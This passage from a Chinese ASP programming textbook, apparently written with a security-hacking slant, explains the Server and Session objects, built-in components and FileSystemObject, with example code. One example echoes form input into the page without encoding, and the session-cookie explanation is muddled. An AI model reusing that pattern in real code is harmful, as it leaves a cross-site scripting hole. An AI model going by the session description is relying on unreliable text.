
ScriptTimeout 还有一个作用就是当一个网页出现死循环的时候，脚本会无限执行下去，超时期限可以使网页在循环执行一定时间后停止。

###### CreateObject 方法

CreateObject 方法是 Server 对象最重要的一个方法，正因为有了这个方法，ASP 才能方便地利用各种符合 COM 接口的第三方组件。CreateObject 方法的使用比较简单，其使用格式为：`Server.CreateObject("组件名称")`。

为了使用方便起见，可以将创建的对象赋值给一个变量，如下所示：

```asp
Set myVar = Server.CreateObject("组件名称")
```

由于对象被创建以后，会一直占用系统的资源，因此如果不用的时候，可以释放这个对象，彻底释放对象的方法如下：

```asp
Set myVar = Nothing
```

如果要创建一个数据库连接对象，可以使用如下语句：

```asp
Set conn = Server.CreateObject("ADODB.Connection")
```

如果要创建一个文件系统对象，可以使用如下语句：

```asp
Set MyFileObject = Server.CreateObject("Scripting.FileSystemObject")
```

###### HTMLEncode 方法

Server 对象提供的 HTMLEncode 方法，可以将字符串进行编码之后在浏览器中进行正确的显示。由于浏览器会对 HTML 标记 `<b>`、`<font>`、`<script>` 进行解释，而当我们希望直接在浏览器中显示这些标记文本而不要解释时，可以用 HTMLEncode 方法。而且就是利用这个方法来防止跨站漏洞的，在后面会给大家讲解。

###### URLEncode 方法

就像 HTMLEncode 方法可以将字符串翻译成可接受的 HTML 格式一样，URLEncode 方法可将一个指定的字符串按 URL 的编码输出，当字符串数据以 URL 的形式传递到服务器时，在字符串中不允许出现空格，也不允许出现特殊字符。例如下面的脚本函数会将给定的字符串翻译成可为 URL 接受的格式：

```asp
<%
Response.Write Server.URLEncode("hello world!:(<U></U>)")
%>
输出为：hello+world!:%28%3CU%3E%3C/U%3E%29
```

###### MapPath 方法

MapPath 方法用于将指定的相对或虚拟路径映射到服务器中相应的物理目录，它的语法格式为：`Server.MapPath(path)`。

其中 path 为要映射物理目录的相对或虚拟路径。若 path 以一个正斜杠（/）或反斜杠（\）开始，则 MapPath 方法返回路径时会将 path 视为完整的虚拟路径。若 path 不是以斜杠开始，则 MapPath 方法返回同 ASP 文件中已有的路径相对的路径。不过需要注意的是 MapPath 方法不检查返回的路径是否正确或在服务器上是否存在。

对于下面的这个例子，文件 `data.txt` 和脚本文档 `test.asp` 都是位于目录 `C:\Inetpub\wwwroot\asp` 下。`C:\Inetpub\wwwroot` 目录被设置为服务器的宿主目录。下面的示例使用服务器变量 `PATH_INFO` 映射当前文件的物理路径。

```asp
<%=Server.MapPath(Request.ServerVariables("PATH_INFO"))%>
执行后的输出为：
C:\Inetpub\wwwroot\asp\test.asp
```

由于下面的示例中的路径参数不以斜杠字符开始，所以它们将被相对映射到当前目录，此处目录为 `C:\Inetpub\wwwroot\asp`。

```asp
<%=Server.MapPath("data.txt")%>
<%=Server.MapPath("asp/data.txt")%>
执行后输出为：
C:\Inetpub\wwwroot\asp\data.txt
C:\Inetpub\wwwroot\asp\asp\data.txt
```

###### 服务端调用

程序员在开发系统的时候的一个基本思想是软件的重用，也就是可以重复使用已经开发出来的东西，这样就避免了做很多重复的工作。在 ASP 中有两种方法可以实现 ASP 页面的重用：第一种是使用服务器端包含文件的方法；第二种是使用 Server 对象的 Execute 方法。

- 1. 服务器端包含指令 `#include`

通常我们在分析代码或编写代码的时候都会接触到 `#include` 这个指令。用于将一些通用的函数、变量、页面元素等单独存储到一个文件中，然后在需要使用的页面中使用 `#include` 语句包含进来。这样做的好处在于减少了工作量，程序维护也很方便。理解这个对我们分析代码是很有好处的。

通常被共用的文件被命名为 `*.inc`，不过从安全的角度来说，这是一个不明智的选择，因为如果我们推测出该 `.inc` 文件路径，可以通过浏览器中 URL 路径来下载这个文件，并能够看到源代码。不过这个目前很多程序员都知道了，现在一般都是被命名为 `*.asp`。比如下面的例子：

```asp
<!-- #include file="tmp.asp" -->      '包含当前目录下的 tmp.asp 文件
<!-- #include file="tmp/tmp.asp" -->  '包含当前目录的 tmp 子目录下的 tmp.asp 文件
<!-- #include file="../tmp.asp" -->   '包含当前目录的父目录下 tmp.asp 文件
<!-- #include virtual="/web/tmp.asp" -->   '包含 IIS 中默认 web 站点下的 web 虚拟目录下的 tmp.asp 文件
<!-- #include virtual="../tmp.asp" -->     '包含 IIS 中当前虚拟目录的父目录下的 tmp.asp
```

使用 `#include` 语句要注意的是，由于 `#include` 是把被包含文件的内容装载到当前页面，故相当于把被包含文件的代码复制到当前页中。通常在一个 ASP 页面第一行有一个声明：`<%@ language="VBScript" codepage="936"%>`，并且每个页面只能有一个声明语句，而在当前页面中还有该声明语句。如果被包含文件中包含该语句时，使用 `#include` 语句的话，在当前页面中就会出现两个声明语句，就会出错。因此大家如果以后在从事 ASP 开发的工作中要记得包含的文件不要含有 `<%@ language="VBScript" codepage="936"%>`。

- 2. 使用 Server 对象的 Execute 方法

与 `#include` 语句类似，`Server.Execute()` 也可以在执行当前页面过程中将另外一个页面执行结果插入到当前页面的输出中。`#include` 语句是将被包含页面的内容复制到当前页面，而 `Server.Execute()` 是跳到目标页面中去执行，并在执行完成后返回当前页面，这类似于函数调用。

`#include` 语句适用于将片断程序包含到当前页面，被包含文件不是一个完整的用于显示客户端的页面，通常仅仅是包含几个函数、语句的代码段，或者是 ASP 页面的一小块页面元素。`Server.Execute()` 适合于将一个完整的页面调入到当前页面，被调入的页面本身也可以是一个完整的 ASP 页面。不过 `Server.Execute()` 的一个缺陷在于，当前页面定义的过程、函数、变量在目标页面中不可用。

## 6.2.4 Session对象

使用 Session 对象可以存储特定的用户会话所需的信息。当用户在应用程序的页面之间跳转时，存储在 Session 对象中的变量不会被清除，而用户在应用程序中访问页面时，这些变量始终都存在。当用户请求来自应用程序的 Web 页面时，如果该用户还没有进行会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或放弃后，服务器将终止该会话。

通过向客户端发送唯一的 Cookie，可以管理服务器上的 Session 对象。当用户第一次请求 ASP 应用程序中的某个页面时，ASP 要检查 HTTP 头信息，查看报文中是否有名为 ASPSESSIONID 的 Cookie 发送过来。如果有，则服务器启动新的会话，并为该会话生成一个全局唯一的值，再把这个值作为新 ASPSESSIONID Cookie 的值发送给客户端。使用这种 Cookie，可以访问存储在服务器上属于客户端程序的信息。Session 对象最常见的作用就是存储用户的首选项。Session 对象还经常被用在鉴别客户身份的程序中。不过要注意的是，会话状态仅在支持 Cookie 的浏览器中保存，如果我们关闭 Cookie 选项，则 Session 就不能发挥作用了。

##### （1）Session 对象的成员

Session 对象的成员如表 6-4 所示。

| 成员 | 说明 |
|---|---|
| 集合 Contents | 没有使用 `<OBJECT>` 元素定义的存储于 Session 对象中的所有变量的集合。 |
| 集合 StaticObjects | 使用 `<OBJECT>` 元素定义的存储于 Session 对象中的所有变量的集合。在运行期间不能从其中删除成员。 |
| 属性 SessionID | 返回会话标识符，创建会话时由服务器产生。 |
| 属性 Timeout | 定义会话超时周期（以分钟为单位）。如果用户在超时周期内没有进行刷新或请求一个网页，则该会话结束。 |
| 事件 OnStart | 当 ASP 用户会话启动时触发，在用户请求的网页执行之前，用于初始化变量、创建对象或运行其他代码。 |
| 事件 OnEnd | 当 ASP 用户会话结束时触发。从用户对应用程序的最后一个页面请求开始，如果已经超出了预定会话超时周期，则触发该事件。 |

表 6-4 Session 对象的成员

##### （2）Session 对象的使用

下面我就给大家介绍一下 Session 对象的使用。对于重要的成员我还会用例子来说明，让大家都能够理解它们。

###### SessionID 属性

SessionID 属性将返回用户的会话标识。在创建会话的时候，服务器将为每一个会话生成一个单独的标识，即会话标识。会话标识将以长整型数据类型返回。在很多的情况下 SessionID 可用于 Web 页面的注册统计。

###### Timeout 属性

Timeout 属性以分钟为单位，为该应用程序的 Session 对象指定超时时限。如果用户在该超时时限内不刷新或请求网页，则该会话将会被终止。

在默认的情况下，服务器只保留 Session 20 分钟，但是如果为了安全性，应该把保留时间设置低于 20 分钟。我们可以这样来设置 Session 的值，如下所示：

```asp
Session.Timeout = 10  '单位为分钟
```

###### 自定义属性

Session 最重要的功能就是能够将客户端的信息保存在服务器上，并且能够在各个网页中共享，直到超时或者客户端离开该网站为止。Session 对象实现保存数值的格式如下：

```asp
<%
Session("自定义变量") = 值
%>
```

其中自定义变量可以由我们自己来定义，当定义该变量以后，就可以在各个网页间共享该数据了，这项功能实现在网上购物时非常有用。还有 Session 是用户级的对象，也就是说，该对象中的数据只能被该用户共享，而其他的用户则看不到该对象。

如果打算将一个“对象”直接保存在 Session 对象中，以便在整个应用中引用，那么需要用 Set 关键字（仅当使用 VBScript 用作编程语言时）。请看下面的例子：

```asp
<%
Set Session("自定义变量") = Server.CreateObject("组件名称")
%>
```

然后，用户可以使用如下的格式在该 Web 应用的任何一个页面直接调用该 Session 对象的方法。

方法及属性。

```asp
<%
Session("自定义变量").method
Session("自定义变量").property
%>
```

我们也可以将这个 Session 对象复制给一个本地的对象，然后对本地变量进行操作：

```asp
<%
Set local_obj = Session("自定义变量")
local_obj.method
local_obj.property
%>
```

##### Abandon() 方法

当网页执行完成时，结束当前用户会话并撤销当前 Session 对象。但即使在调用该方法以后，仍可访问该页中的当前会话变量。当用户请求下一个页面时将启动一个新的会话，并建立一个新的 Session 对象。使用格式如下：

```asp
<%
Session.Abandon
%>
```

##### Session_OnStart 事件

这个事件在服务器创建新会话时发生，服务器在执行请求的页面之前将先处理该脚本。Session_OnStart 事件是设置会话期变量的最佳时机，因为在访问任何页面之前都会先对它们进行设置。

##### Session_OnEnd 事件

当 ASP 用户会话结束时将触发该事件。从用户对应用程序提交的最后一个页面请求开始，如果已经超出了预定的会话周期，则触发该事件。当会话结束时，取消该会话中的所有变量。在代码中使用 Abandon 方法结束 ASP 用户会话时，也将触发这个事件。

### 6.3 ASP 常用组件概述

上一节给大家介绍了 ASP 中常用的、也是与黑客技术有密切关系的组件，而在本节我就给大家介绍 ASP 中的内置组件。ASP 中常用的内置组件如下所示：

- 1. **AdRotator（广告轮播组件）**：这个组件用来创建一个 AdRotator 对象，可按指定计划在同一个页上自动轮换显示广告。可以使用 AdRotator 组件来交替显示图像，并提供指向另一个 URL 的链接。广告列表保存在文本文件中，AdRotator 组件依照数据文件中的指令来显示它们。
- 2. **BrowserCapabilities（浏览器兼容组件）**：这个组件创建了一个 BrowserType 对象，其对象决定访问 Web 站点的每个浏览器的性能、类型及版本。通过使用 BrowserCapabilities 组件，可按浏览器的功能对发送到该浏览器的内容进行剪裁。
- 3. **ContentLinking（文件超链接组件）**：该组件使在应用程序中提供 ASP 文件的逻辑导航变得简单易行。这样就不用在 ASP 文件中维护 URL 引用，而只须在易于编辑的文本文件中制定 ASP 文件的组织次序。
- 4. **DataBaseAccess（数据库存取组件）**：该组件提供用 ActiveX Data Objects（ADO）访问数据库的能力。使用该组件可以在应用程序中访问数据库。然后可以显示表的整个内容、允许用户构造查询以及在 Web 页执行其他一些数据库查询。
- 5. **FileAccess（文件存取组件）**：该组件可提供在计算机文件系统中检索和修改文件的对象。
- 6. **CollaborationDataObjects for NTS（邮件对象组件）**：该组件提供 Web 应用程序所使用的邮件对象。使用这个组件能够简单快速地在应用程序中添加发送邮件的功能。可以创建可编程邮件对象，然后利用它们的属性和方法来满足应用程序的需要。
- 7. **PageCounter（页计数组件）**：该组件统计并显示 Web 页被请求的次数。以一定的时间间隔，将捕获的数字写入到文本文件中，这样在服务器关闭后，也不会丢失数据。
- 8. **Counter（计数组件）**：该组件创建一个 Counters 对象，此对象可以创建、保存、增加或检索任意数量的独立计数器。
- 9. **ContentRotator（内容轮播组件）**：该组件在 Web 页上自动循环 HTML 内容字符串。每次用户请求 Web 页时，ContentRotator 组件则基于 ContentSchedule 文件中指定的信息显示新的 HTML 内容字符串。

这里就列举了一些常用的组件，不常用的就不简单介绍了，如果要了解其他的，可以去参考光盘中自带的电子书。尽管 ASP 提供了数量众多、功能不同的组件，但在脚本中它们的使用方法都是非常类似的。

#### 6.3.1 ASP 组件概述

在 ASP 中，通常所说的组件就是 ActiveX 组件。当用 ASP 编写服务器端程序时，必须依靠 ActiveX 组件来增强 Web 应用程序的功能。那么，究竟什么是 ActiveX 组件呢？它又是如何运作的呢？其实 ActiveX 组件是一个存在 Web 服务器上的文件，该文件包含执行某一项或某一组任务的代码。组件可以执行公用任务，这样就不用自己去创建执行这些任务的代码。例如，股票行情收报机组件可以在 Web 页上显示最新的股票报价。在 Web 服务器上安装完 ASP 环境后，就可以直接使用其自带的几个常用组件，如 DataBaseAccess 组件。当然也可以从第三方开发者处获得可选的组件或编写自己的组件。组件可以作为基于 Web 应用程序的脚本基本构架，只要知道了如何访问组件提供的对象，即使你是编程的菜鸟，没有任何的编程经验，也可以在不了解组件运作方式的情况下编写 ASP 程序。总之，有了 ActiveX 组件就不必学习复杂的程序编写过程，就能够写出强大的 Web 服务器端脚本。

那么如何在 ASP 中调用组件呢？组件包含在动态链接库（.dll）或可执行文件（.exe）中的可执行代码。组件可以提供一个或多个对象以及对象的方法和属性。要使用组件提供的对象，首先要创建对象的实例并给这个实例分配变量名，可以使用 ASP 的 Server.CreateObject 方法来创建对象实例。接着，使用脚本语言的变量分配指令为对象实例命名。创建对象实例时，必须提供实例的注册名称“PROGID”。

例如要创建 AdRotator 对象的一个实例的语句如下：

```asp
<%Set MyAds = Server.CreateObject("MSWC.AdRotator")%>
```

必须使用 ASP 的 Server.CreateObject 方法来创建对象实例，否则 ASP 无法跟踪脚本语言中的对象使用情况。

使用 HTML `<OBJECT>` 标签同样可以创建对象实例，但必须为 Runat 属性提供服务器值，同时也要为将在脚本语言中使用的变量名提供 ID 属性组。使用注册名（PROGID）或注册码（CLSID）可以识别该对象。下面就是使用注册名（PROGID）创建 AdRotator 对象的实例。

```html
<OBJECT RUNAT=Server ID=MyAd PROGID="MSWC.AdRotator"></OBJECT>
```

有了对象实例后，就可以使用对象所提供的方法和属性了。

#### 6.3.2 Scripting 组件

在众多的组件当中，与脚本黑客联系最紧密的恐怕要算是 Scripting 组件了，下面我就给大家介绍一下这个组件，至于其他的组件这里就不多讲了，有兴趣的话可以去看光盘中自带的电子书。

Scripting 组件或者叫脚本运行期对象，是由脚本语言提供的对象模型。脚本对象由脚本运行期库（scrrun.dll）提供，安装默认脚本引擎时即安装了脚本运行期库（Scripting Runtime）。Scripting 组件中提供了 Dictionary、FileSystemObject、TextStream 三个对象。

Dictionary 对象是一个极为有用的存储工具，它用来存储名-值对，可以通过对象名而不是索引进行访问和引用。例如，使用 Dictionary 对象存储在 ASP Request 对象集合中检索到的名称/值对。

##### （1）Dictionary 对象

Dictionary 提供了一系列的方法和属性来进行数据存储处理，具体的成员如表 6-5 所示。

| 属性、方法 | 说明 |
|---|---|
| Count 属性 | 只读。返回 Dictionary 对象包含的项目数。 |
| Item 属性 | Dictionary 对象中指定 key 对应的 item，或返回集合中给定 key 的 item。如果更改 item 时未找到 key，则创建一个新的 key，且它对应的项目为空值。 |
| Key 属性 | 在 Dictionary 对象中设置 key。 |
| Add 方法 | 向 Dictionary 对象添加键/项目对。 |
| Exists 方法 | 如果在 Dictionary 对象中存在指定键，返回 True；如果不存在，返回 False。 |
| Items 方法 | 返回一个数组，其中包含 Dictionary 对象中的所有项目。 |
| Keys 方法 | 返回一个数组，其中包含 Dictionary 对象中的所有键。 |
| Remove 方法 | 从 Dictionary 对象中删除键和项目对。 |
| RemoveAll 方法 | 删除 Dictionary 对象中所有的键和项目对。 |

表 6-5 Dictionary 对象的方法和属性

下面通过一个例子来给大家演示一下 Dictionary 对象的使用。示例 6-12 演示了通过 Dictionary 对象保存数据，并输出的功能，代码如下：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>Dictionary 对象</title>
</head>
<body>
```

```asp
你的个人信息如下：<br>
<%
dim oDic, oRs, oKey
set oDic = Server.CreateObject("Scripting.Dictionary")
'创建一个 Dictionary 对象
oDic.Add "name","姓名"  '使用 Add 方法添加信息
oDic.Add "sex","性别"
oDic.Add "address","地址"
oDic.Add "zip","邮编"
oDic.Add "phone","电话"
oDic.Add "fax","传真"
oDic.Add "mobile","手机"
oDic.Add "intro","个人简介"
oDic.Add "email","电子邮件"
for each whatever in oDic
    response.write whatever & "="
    response.write oDic.item(whatever) & "<br>"
    '输出 whatever 中所有的项目
next
%>
</body>
</html>


```

代码 6-12 执行后的结果如图 6-18 所示。
图 6-18 执行后的结果

##### （2）FileSystemObject 对象

FileSystemObject 对象（简称 FSO）提供了对服务器底层文件系统的访问。可用 FileSystemObject 对象遍历计算机的本地及网络驱动器、文件夹和文件。FSO 非常重要，特别是在黑客方面的运用最多了，比如我们的 ASP 网页木马就是利用它来得到当前服务器中的所有信息的，在病毒方面也是应用得非常广泛，所以这一小节大家一定要学好。因为在后面我们还要给大家分析 ASP 网页木马呢。

FSO 对象提供了一系列属性、方法，而这些属性和方法大都与其从属对象有关。FSO 的从属对象包括：驱动器 Drive 对象、目录 Folder 对象、文件 File 对象、文本流 TextStream 对象。

- 1. Drive 对象

Drive 对象的方法和属性如表 6-6 所示。

| Drive 对象成员 | 说明 |
|---|---|
| FSO.Drives 属性 | 返回本地计算机可用的驱动器列表，包括这台机器映射的网络驱动器。 |
| FSO.DriveExists 方法 | 接受驱动器路径字符串参数，如果指定的驱动器存在，则返回 True；否则返回 False。 |
| FSO.GetDrive 方法 | 接受驱动器路径字符串参数，返回与指定路径中驱动器相对应的 Drive 对象。 |
| FSO.GetDriveName 方法 | 接受驱动器路径字符串参数，返回包含指定路径中驱动器名的字符串。 |
| Drive.AvailableSpace 属性 | 返回指定驱动器或网络共享对用户的可用空间大小。 |
| Drive.FreeSpace 属性 | 返回指定驱动器或网络共享对用户的剩余空间大小。 |
| Drive.ShareName 属性 | 返回指定驱动器的网络共享名。 |
| Drive.TotalSize 属性 | 返回驱动器或网络共享的总字节数。 |
| Drive.DriveLetter 属性 | 返回本地驱动器或网络共享的驱动器号。 |
| Drive.DriveType 属性 | 返回一个描述指定驱动器类型的值，这些类型包括：0 未知、1 可移动、2 固定、3 网络、4 CD-ROM、5 RAM 磁盘。 |
| Drive.FileSystem 属性 | 返回指定驱动器使用的文件系统类型。 |
| Drive.IsReady 属性 | 如果指定的驱动器就绪，返回 True，否则返回 False。 |
| Drive.Path 属性 | 返回驱动器路径。 |
| Drive.RootFolder 属性 | 返回一个 Folder 对象，表示指定驱动器的根文件夹。 |
| Drive.SerialNumber 属性 | 返回十进制序列号，用于唯一标识一个磁盘卷。 |
| Drive.VolumeName 属性 | 指定驱动器的卷标。 |

表 6-6 Drive 对象的方法和属性

Drive 对象主要是对驱动器进行编程，上面已经把它的方法和属性的功能都介绍给大家了，下面通过一个例子来具体说明它们的用途。示例 6-13 演示了利用 GetDrive 方法来获得指定驱动器的信息。代码如下所示：

```html
<html>
<head>
<title>4-7.asp</title>
</head>
<body>
<%
TestDrive="C:"
'创建一个 FSO 对象
set fs = Server.CreateObject("Scripting.FileSystemObject")
```

```vb
'调用它的 GetDrive 方法，将驱动器赋给一个变量
set f = fs.GetDrive(TestDrive)
'显示根目录
Response.Write("根目录：")
Response.Write(f.RootFolder)
Response.Write("<BR>")
'显示磁盘类型，如软盘、硬盘等
Response.Write("驱动器类型：")
if f.DriveType=2 then
Response.Write("Fixed")
end if
if f.DriveType=1 then
Response.Write("Removable")
end if
Response.Write("<BR>")
'显示磁盘文件系统类型，如 NTFS、FAT32 或 FAT16 等
Response.Write("文件系统")
Response.Write(f.FileSystem)
Response.Write("<BR>")
'显示磁盘总空间
Response.Write("驱动器大小: &nbsp;&nbsp;")
Response.Write(f.TotalSize)
Response.Write("<BR>")
'显示剩余空间
Response.Write("驱动器剩余空间：")
Response.Write(f.FreeSpace)
Response.Write("<BR>")
'显示序列号
Response.Write("驱动器序列号：")
Response.Write(f.SerialNumber)
set f = nothing
set fs = nothing
%>
</body>
</html>


```

代码执行后的结果如图 6-19 所示。
图 6-19 C 盘的一些磁盘信息

###### ② Folder 对象

Folder 对象主要是对文件目录进行各种操作以及获取目录的信息。FSO 中与 Folder 对象相关属性、方法的信息如表 6-7 所示。

| Folder 对象成员 | 说明 |
|---|---|
| FSO.BuildPath 方法 | 接受字符串参数 path、name。在现有路径 path 上增加 name 文件（夹）。 |
| FSO.CopyFolder 方法 | 接受参数 src、dest、overwrite。将文件夹从某位置递归复制到另一位置，可以使用通配符。 |
| FSO.CreateFolder 方法 | 接受参数 foldername，使用 foldername 创建文件夹，如果已经存在就出错。 |
| FSO.DeleteFolder 方法 | 接受参数 folderpath、force，删除 folderpath 指定的文件夹，可以使用通配符。 |
| FSO.FolderExists 方法 | 接受参数 folderpath，返回指示 folderpath 文件夹是否存在的布尔值。 |
| FSO.GetAbsolutePathName 方法 | 接受参数 folderpath，返回 folderpath 文件夹的绝对路径。 |
| FSO.GetFolder 方法 | 接受参数 folderpath，返回 folderpath 指向的 Folder 对象。 |
| FSO.GetSpecialFolder 方法 | 接受参数 foldspec，返回与特定 Windows 文件夹对应的 Folder 对象。 |
| FSO.MoveFolder 方法 | 接受参数 src、dest，将文件夹从源路径移动到新路径。 |
| Folder.DateLastAccessed 属性 | 最后一次访问文件夹的时间。 |
| Folder.Files 属性 | 返回文件夹下的所有文件的 File 对象集合。 |
| Folder.Name 属性 | 文件夹名。 |
| Folder.ParentFolder 属性 | 返回当前文件夹的父文件夹 Folder 对象。 |
| Folder.Size 属性 | 返回当前文件夹里所有文件与子文件夹的大小。 |
| Folder.SubFolders 属性 | 返回所有子文件夹 Folder 对象集合。 |
| Folder.Path 属性 | 返回文件夹的绝对路径。 |
| Folder.Copy 方法 | 接受参数 dest、overwrite，作用与 FSO.CopyFolder 类似。 |
| Folder.Delete 方法 | 接受参数 force，作用与 FSO.DeleteFolder 类似。 |
| Folder.Move 方法 | 接受参数 dest，作用与 FSO.MoveFolder 类似。 |
| Folder.CreateTextFile 方法 | 接受参数 filename、overwrite、unicode，在当前文件夹内创建 filename 文本文件。 |

表 6-7 Folder 对象的方法和属性

下面我给大家演示一个例子，示例 6-14 介绍了如何获取指定目录下所有的文件名称以及子目录，其代码如下所示：

```html
<html>
<head>
<title>4-9.asp</title>
</head>
<body>
```

```asp
<%
folderspec = "../ASP"
Set fs = CreateObject("Scripting.FileSystemObject")
' 创建一个 FSO 对象
Set f = fs.GetFolder(Server.MapPath(folderspec))
' 获得 ASP 文件夹对象
Set fd = f.SubFolders
' 返回 f 下所有子文件夹的集合
Response.Write "<h2>目录</h2><blockquote>"
For Each whatever In fd
    Response.Write whatever.Name & " - " & whatever.DateCreated
    ' 输出这个文件夹下的文件夹信息
    Response.Write "<br>"
Next
Response.Write "</blockquote><hr>"
Response.Write "<h2>文件</h2><blockquote>"
Set fc = f.Files
' 获得 f 文件夹下的所有文件对象集合
For Each whatever In fc
    Response.Write whatever.Name & " - " & whatever.DateCreated
    ' 输出文件夹 f 下的所有文件信息
    Response.Write "<br>"
Next
Response.Write "</blockquote><hr>"
%>
</body>
</html>


```

文件运行之后的结果如图 6-20 所示。
图 6-20 ASP 文件夹下的信息

## ③、File 对象

File 对象主要是对具体文件进行处理以及获取文件的具体信息，File 对象的成员如表 6-8 所示。

| File 对象成员 | 说明 |
|---|---|
| FSO.CopyFile 方法 | 接受参数 `src`、`dest`、`overwrite`，将 `src` 字符串指定的文件复制到 `dest` 字符串指定的文件夹中，可以使用通配符，`overwrite` 表示是否覆盖目标同名文件。 |
| FSO.CreateTextFile 方法 | 接受参数 `filename`、`overwrite`、`unicode`，创建由 `filename` 指定的文本文件。 |
| FSO.DeleteFile 方法 | 接受参数 `filename`、`force`，删除由 `filename` 字符串指定的文件，可以使用通配符，`force` 指示是否强行删除只读属性文件。 |
| FSO.FileExists 方法 | 接受参数 `filename`，返回 `filename` 指定的文件是否存在。 |
| FSO.GetExtensionName 方法 | 接受参数 `filename`，返回 `filename` 指定文件的后缀名。 |
| FSO.GetFile 方法 | 接受参数 `filename`，返回 `filename` 指定的文件 File 对象。 |
| FSO.GetFileName 方法 | 接受参数 `filename`，返回 `filename` 指定的文件路径。 |
| FSO.GetBaseName 方法 | 接受参数 `filename`，返回 `filename` 文件全路径名（去掉文件后缀名）。 |
| FSO.GetTempName 方法 | 无参数，随机产生一个文件名。 |
| FSO.MoveFile 方法 | 接受参数 `src`、`dest`，将 `src` 指定文件移动到 `dest` 指定的目标文件夹中，可以使用通配符。 |
| FSO.OpenTextFile 方法 | 打开指定的文件并返回一个 TextStream 对象，此对象用于对文件进行读、写或追加操作。 |
| File.DateCreated 属性 | 该文件的创建日期和时间。 |
| File.DateLastModified 属性 | 最后一次修改该文件的日期和时间。 |
| File.DateLastAccessed 属性 | 最后一次访问该文件的日期和时间。 |
| File.Drive 属性 | 该文件所在驱动器的 Drive 对象。 |
| File.Name 属性 | 文件的名字。 |
| File.ParentFolder 属性 | 该文件的父文件夹的 Folder 对象。 |
| File.Path 属性 | 返回文件的绝对路径。 |
| File.Size 属性 | 文件的大小。 |
| File.Type 属性 | 文件类型的说明字符串，例如 TextDocument 表示 `.txt` 文件。 |
| File.Copy 方法 | 接受参数 `dest`、`overwrite`，与 FSO.CopyFile 方法类似。 |
| File.Delete 方法 | 接受参数 `dest`，与 FSO.DeleteFile 方法类似。 |
| File.Move 方法 | 接受参数 `dest`，与 FSO.MoveFile 方法类似。 |
| File.CreateTextFile 方法 | 接受参数 `filename`、`overwrite`、`unicode`，与 FSO.CreateTextFile 方法类似。 |
| File.OpenAsTextFile 方法 | 接受参数 `iomode`、`format`，与 FSO.OpenAsTextFile 方法类似。 |

表 6-8 File 对象的成员

下面我们通过一个例子来给大家介绍 File 对象的使用，示例 6-15 演示了文件的创建、输入数据、添加数据以及读取数据的功能。它的代码如下所示：

```html
<html>
<head>
<title>创建、添加、追加、读取文件数据</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
whichFN = Server.MapPath("1.txt")
Set fstemp = Server.CreateObject("Scripting.FileSystemObject")
Set filetemp = fstemp.CreateTextFile(whichFN, True)
' True 表示如果文件已经存在，能被改写
' False 表示不能被改写
filetemp.WriteLine("已经新建一个文件!!!!")
' 输入三个空行
filetemp.WriteBlankLines(3)
filetemp.WriteLine("学好 ASP，就可以找 ASP 代码漏洞了!")
filetemp.Close
' 关闭文件
' 现在追加入一些数据
forappending = 8
' 在这里可以利用一个变量 forappending=8
Set filetemp = fstemp.OpenTextFile(whichFN, forappending)
filetemp.WriteLine "你好，我是曾云好!"
filetemp.WriteLine "我也是刚刚开始接触 ASP 漏洞查找..."
filetemp.Close
' 读取文件数据
Set fs = CreateObject("Scripting.FileSystemObject")
' 创建一个 FSO 对象
Set thisfile = fs.OpenTextFile(whichFN, 1, False)
counter = 0
Do While Not thisfile.AtEndOfStream
    counter = counter + 1
    thisline = thisfile.ReadLine
    Response.Write thisline & "<br>"
Loop
thisfile.Close
Set thisfile = Nothing
Set fs = Nothing
Set filetemp = Nothing
Set fstemp = Nothing
%>
</head>
<body>
</body>
</html>


```

代码 6-15 执行的结果如图 6-21 所示，这个时候我们进入 ASP 文件夹下，可以看到已经创建了一个新的文件“1.txt”，打开它，内容如图 6-22 所示。
图 6-21 代码执行后的结果
图 6-22 在 ASP 文件夹下创建的 1.txt 的内容

## ④、TextStream 对象

TextStream 对象提供对存储在磁盘上文件的访问，通常是与 FileSystemObject 对象协同使用，TextStream 对象能够访问、操作文本文件。但是不能够使用 Server.CreateObject 方法建立一个 TextStream 对象实例。只能够通过 FileSystemObject 对象的相关方法进行实例化，所以常常认为 TextStream 对象是 FileSystemObject 对象的子对象。

TextStream 对象成员如表 6-9 所示。

| TextStream 对象的成员 | 说明 |
|---|---|
| TextStream.AtEndOfLine 属性 | 文件位置指针是否在文件中一行的末尾。 |
| TextStream.AtEndOfStream 属性 | 文件位置指针是否在文件的末尾。 |
| TextStream.Column 属性 | 文件中当前字符的列号，从 1 开始。 |
| TextStream.Line 属性 | 文件当前行号，从 1 开始。 |
| TextStream.Close 方法 | 关闭一个打开的文件。 |
| TextStream.Read 方法 | 接受参数 `numchars`，从文件中读出 `numchars` 个字符。 |
| TextStream.ReadAll 方法 | 读出整个文件到字符串中。 |
| TextStream.ReadLine 方法 | 从文件中读出一行到字符串中（直到回车或换行）。 |
| TextStream.Skip 方法 | 接受参数 `numchars`，从文件读出时忽略 `numchars` 个字符。 |
| TextStream.SkipLine 方法 | 从文件读出时忽略下一行。 |
| TextStream.Write 方法 | 接受参数 `string`，向文件写入字符串 `string`。 |
| TextStream.WriteLine 方法 | 接受可选参数 `string`，向文件写入字符串 `string`（可选）和换行符。 |
| TextStream.WriteBlankLine 方法 | 接受参数 `n`，向文件写入 `n` 个换行符。 |

表 6-9 TextStream 对象成员

还是一样我们通过一个例子来简单说明 TextStream 对象的用法。示例 6-16 显示了一个文本框，让我们输入年龄，并保存在“age.txt”文件中。其代码如下所示：

```html
<html>
<head>
<title>年龄调查</title>
<%
Const ForWriting = 2
Dim oFso, oText, sCount, sFile
sFile = Server.MapPath("age.txt")   ' 设置一个路径
Set oFso = Server.CreateObject("SCRIPTING.FILESYSTEMOBJECT")
' 创建一个 FSO 对象
If Not oFso.FileExists(sFile) Then
    ' 判断文件是否存在
    Set oText = oFso.CreateTextFile(sFile)
    ' 不存在就创建这个文件
    age = "0"
    oText.Write(age)
Else
    If Request.Form("submit") = "保存年龄" Then ' 获取表单数据
        Set oText = oFso.OpenTextFile(sFile, ForWriting)
        ' 打开文件
        age = Request.Form("age")
        ' 获得表单中输入的年龄
        oText.Write(age)
        ' 将年龄写入到文件中
    Else
        Set oText = oFso.OpenTextFile(sFile)
        age = oText.ReadLine()
    End If
End If
oText.Close()
%>
</head>
<body>
<form action="6-16.asp" method="post" name="frmCount">
年龄为：<input name="age" value="<%= age %>"><br><br>
<input type="submit" name="submit" value="保存年龄">
</form>
</body>
</html>


```

